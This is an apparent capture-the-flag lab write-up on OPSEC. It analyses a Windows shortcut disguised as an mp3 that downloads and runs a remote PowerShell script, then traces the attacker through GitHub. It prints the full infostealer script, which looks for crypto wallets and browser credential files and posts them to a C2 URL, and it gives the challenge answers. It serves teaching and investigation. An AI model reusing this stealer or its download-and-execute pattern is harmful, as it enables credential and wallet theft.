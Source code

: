 # Day 1 - OPSEC

## Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

In this room, the following are covered:

1. Analyzing lnk files
2. Using OPSEC failures to track down malicious actors and their activities. This can be done by looking for crumbs of information they leave behind (like common usernames on different websites, etc.)

![image.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/image.png)

We are taken to an youtube to mp3 / mp4 downloader web page. Here we make use of any Youtube URL and then click on Download. We get a zip file downloaded and upon extraction, we can see 2 mp3 files namely song.mp3 and somg.mp3:

![image.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/image%201.png)

Running the file command to identify the file type, we see the following:

![image.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/image%202.png)

The file somg.mp3 is an MS Windows shortcut (which should use the .lnk extension). To dig deeper into this suspicious file, we can make use of exiftool:

![image.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/image%203.png)

The path, working directory and command line parameters reveal something very interesting. We see that some sort of powershell script is embedded into this lnk file.

What this PowerShell command does:

- The `ep Bypass -nop` flags disable PowerShell's usual
restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

Visiting the GitHub link on our web browser, we get to see the contents of `IS.ps1`:

```bash
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server

```

The script performs some very suspicious tasks like collecting credential data from browser files, searching for crypto wallets and eventually sending them over to a C2 (Command and Control Server).

### Gathering more details on M.M:

We were able to find a GitHub URL embedded in the lnk file disguised as an mp3 file. There are many paths we could take to continue our investigation. We could investigate the website further, analyze its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

We can also look more on M.M on GitHub, since that is where the powershell file is being downloaded from. On looking up the string “Created by the one and only M.M.”

On navigating to the issues section of Bloatware’s CryptoWallet-Search repository, we see an interesting interaction between MM and Bloatware-WarevilleTHM:

![image.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/image%204.png)

Based on the description in the introduction of the challenge, we can conclude that M.M. is indeed Mayor Malware!

![image.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/image%205.png)

This is a classic case of OPSEC failure.

### Operational Security (OPSEC)

OPSEC is a term originally coined in the military to refer to the process of  protecting sensitive information and operations from adversaries. The  goal is to identify and eliminate potential vulnerabilities before the  attacker can learn their identity.

In the context of cyber security, when malicious actors fail to follow proper OPSEC practices, they might leave digital traces that can be pieced together to reveal their identity. Some common OPSEC mistakes include:

- Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub (Like in this current scenario) with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

We know the attacker left a distinctive signature in the PowerShell code (MM). This allowed us to search for related repositories and  issues pages on GitHub. We then discovered an Issues page where the  attacker engaged in discussions, providing more context and linking their activity to other projects.

## Questions

1. Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

![tyler.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/tyler.png)

Ans: **Tyler Ramsbey**

1. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

Ans: `http://papash3ll[.]thm/data`

1. Who is M.M? Maybe his Github profile page would provide clues?

Ans: **Mayor Malware**

1. What is the number of commits on the GitHub repo where the issue was raised?

![image.png](Day%201%20-%20OPSEC%201509fa490a0e80959944eda945a908af/image%206.png)

Ans: **1**